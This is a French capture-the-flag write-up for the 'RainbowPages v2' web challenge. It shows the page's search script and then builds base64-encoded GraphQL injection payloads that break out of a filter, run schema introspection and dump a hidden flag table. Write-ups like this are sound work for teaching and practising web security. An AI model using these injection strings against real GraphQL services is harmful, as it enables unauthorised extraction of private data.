





# <center>RainbowPages v2</center>


<center>



</center>

On arrive donc sur cette page



Dont le code source contient le script 

    <script>
		function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa(searchInput);
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
	</script>

Vu la requête de la première version du challenge, on peut deviner celle de celui-ci qui devrait ressembler à ```{ allCooks (filter: {or: [{firstname: {like: "%input%"}}, {lastname: {like: "%input%"}}])} { nodes { firstname, lastname, speciality, price}}```

On essaye d'injecter notre requête comme pour le chall précedent pour lister tous les champs l'aide du payload (toujours mis en base 64 par la suite) :

    {
     __schema {
        types {
        name
        }
     }
    }

Mais ...


Eh oui, ce serait trop facile sinon.<br>
Cette erreur est présente car nous ne sommes simplement pas sorti des champs de la requête, il nous suffit donc de sortir des champs.
<br>Pour sortir des champs il faut refermer tous les '(', '[', '{' ouverts au début pour après injecter notre requête.

```a%"}}]})``` cet input referme tous les champs ouverts, ensuite il faut mettre les nodes pour la cohérence de la requête ```{ nodes { firstname, lastname, speciality, price }}```. Avec ça nous sommes bons, maintenant nous pouvons mettre notre payload, ici ```__schema{types{name}}}```.
<br>
Mais la requête ne va pas marcher si celle-ci comptabilise déjà celle de base :/, c'est pour ça que nous avons juste à mettre un petit '#' à la fin de notre requête, ce qui va faire que tous ce qui se situera après notre payload (sur la même ligne) sera mis en commentaire et ne sera donc pas pris en compte.

Ce qui nous donne comme requête finale :

    a%"}}]}){ nodes { firstname, lastname, speciality, price }} __schema{types{name}}}#




On arrive à remarquer plusieurs champs intéressants tel que FlagNotTheSameTableName, checkons un peu ce qu'elle contient à l'aide de cette requête :

    a%"}}]}) { nodes { firstname, lastname, speciality, price }}allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}}#



Ah bah il suffisait de regarder ^^'
